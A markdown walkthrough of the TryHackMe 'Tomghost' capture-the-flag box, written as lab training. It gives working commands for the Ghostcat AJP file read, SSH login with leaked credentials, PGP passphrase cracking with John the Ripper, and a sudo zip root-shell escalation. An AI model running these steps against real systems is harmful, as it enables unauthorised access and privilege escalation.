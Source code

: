 # Try Hack Me - Tomghost

Identify recent vulnerabilities to try exploit the system or read files that you should not have access to. This is a TryHackMe box. To access this you must sign up to https://tryhackme.com/.

## Disclaimer -  Your IP address will be different!
---

## Scanning and Enumeration

We will start with running our nmap scan.  
Command: `nmap -A -T4 -sC -sV -oN nmap/initial.txt 10.10.93.77`

Command Breakdown:

    -A: do an extensive scan on these ports

	-T4: speed of nmap scan is 4/5 (personal preference of mine)

    -sC: Scan with default NSE scripts. Considered useful for discovery and safe

	-sV: Attempts to determine the version of the service running on port

	-oN: Normal output to the file normal.file

Once the results came back there was only one thing that appeared out of place to me and that was port 8009.  

By default, Apache Tomcat listens on 3 ports, 8005, 8009 and 8080. A common misconfiguration is blocking port 8080 but leaving ports 8005 or 8009 open for public access.  

![nmapResulst](images/nmapresults.png "NMAP")

We will bu using the following tool to exploit this vulnerability.  
[00theway/Ghostcat-CNVD-2020-10487](https://github.com/00theway/Ghostcat-CNVD-2020-10487)  

Command: `python3 ajpShooter.py http://10.10.93.77:8080 8009 /WEB-INF/web.xml read`

![nmapRajpShooteresulst](images/ajpShooter.png "ajpShooter") 

It would seems that we where able to find what seems to be both a user name and a password.  

Let's look back at our nmap scan. Remeber that port 22 was open. We might be able to use these credentials to log into our box.  

Command: `ssh <username>@10.10.93.77`  
Enter in the password when you are prompted to and BLAM! we are connected under that user account.  

![sfUser](images/sfUser.png "sfUser")  
When we use the `ls` command we see that there are two files. Both of these files could be encryptions keys, but for right now we are going to look into the `/home` directory to see if we can find anything useful.  

![merlin](images/merlin.png "merlin")  
Let's keep digging and see if we an find anything else. If we `ls /home/merlin` you will see that it is here we find our first flag `user.txt`.  

![userFlag](images/userFlag.png "userFlag")  

Now we are going to return to pgp and asc file that we found in the `skyfuck` directory.  
We are going to all of these files to our host machine. In order to do this we will need to use the `scp` command.  

When using the `scp` command you will want to run it on your host maching and not from the Tomghost VM.   
Command: `scp skyfuck@10.10.31.90:/home/skyfuck/* .`
## Cracking the Hash
---
After running the `scp` command we now have both the credential.pgp and tryhackme.asc on our host maching.  
The next thing we want to do is use John The Ripper to get the hash from the `tryhackme.asc`.  
Here is a good [video](https://www.youtube.com/watch?v=DBpd9e4tJfg) for recovering your PGP key with John.  
Command: `gpg2john tryhackme.asc > hash`  
Once complete you can see that we now have our password. Lets make sure that we take note of that.  
 
It is now time for to crack open the hash that we collected eariler. This can be down by using John and combining it with the rockyou.txt wordlist.  

FYI in order to find the location of your rockyou.txt word list just use `locate rockyou.txt`. Mind is located in the `/usr/share/wordlists/` directory.  

Command: `john --wordlist=/usr/share/wordlists/rockyou.txt hash`
![passwd](images/passwd.png "passwd") 

It seems that John was able to find out passphrase. Now we are going to use that phrase to import adn decrypt our PGP key that we have.
```
gpg --import tryhackme.asc
gpg --decrypt credential.pgp
```

![merlinPasswd](images/merlinPasswd.png "merlinPasswd")  
Things are starting to work in our favor.
We now have the password to the Merlin account.  
So we need to go back to our SSH shell and change from the skyfuck user to merlin, that can be done by using the `SU` command.  

Command: `su merlin`  
Once you are logged in as Merlin lets see if we have the abiliy to run anything as sudo.  
`sudo -l`  
It seems that the only thing we can use sudo on is `/usr/bin/zip`  
Afer a little bit of reasearch I found this [GitBook](https://d00mfist1.gitbooks.io/ctf/privilege_escalation_-_linux.html) on privilege escalation. Under the zip portion there was this oneliner that would allow us to gain access to a root shell.
`sudo zip -q /tmp/test.zip cc0.txt -T -TT '/bin/sh #'`

![shell](images/shell.png "shell")  
Once we have the shell we can us the `id` command to see that we are now running as a root user.  

Now it is time to find the root.txt file.
```
ls /root
cat /root/root.txt
```
![rootFlag](images/rootFlag.png "rootFlag") 

# Congratulations you have just completed the Tomghost challenge!